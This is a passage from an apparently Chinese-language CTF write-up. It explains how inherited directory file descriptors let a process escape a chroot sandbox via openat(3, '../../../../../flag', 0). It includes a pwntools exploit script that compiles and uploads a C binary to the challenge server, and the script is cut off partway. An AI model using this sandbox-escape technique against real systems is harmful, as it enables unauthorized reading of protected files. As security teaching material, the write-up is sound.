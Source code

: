 ```python
io.sendline(payload)
io.recv()
io.interactive()
```

```bash
➜  python exp.py 
[+] Opening connection to grjt.game.redbud.info on port 20003: Done
[+] length: 0x8683
[*] Switching to interactive mode
Creating your dir
Entering your dir
[+] from server
[*] Got EOF while reading in interactive
```

执行可见`[+] from server`成功被打印回来了，说明二进制文件成功被执行

### openat函数

刚才已经知道，并且通过调试确认子进程是可以用3，4，5三个文件描述符的，而且这几个文件描述符分别指向如下：

- `/home/ctf/sandbox/`
- `/home/ctf/sandbox/xxx/`
- `/proc/xxx/uid_map`

那如何利用呢？在室友的提示下，知道了一个openat函数，看名字也是知道大概是在某个可以指定的目录下打开吧，在man手册中查看这个函数：

```c
int openat(int dirfd, const char *pathname, int flags);
```

看函数原型就知道了，第一个参数是一个目录的文件描述符，所以非常简单的想到构造如下payload，即可绕过chroot的限制获得flag：

```c
openat(3,"../../../../../flag",0)
```

### 完整exp

```python
import os
from pwn import *

io = remote("grjt.game.redbud.info",20003)

code = '''
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdio.h>
int main(){
	char buf[100]={};
	int fd1 = openat(3,"../../../../../flag",0);
	read(fd1,buf,100);
	write(1,buf,100);
	printf("[+] from server\\n");
}
'''

a = open('hello.c','w')
a.write(code)
a.close()
os.system("gcc hello.c -o hello")
b = open("./hello").read().encode("hex")

c = ""
```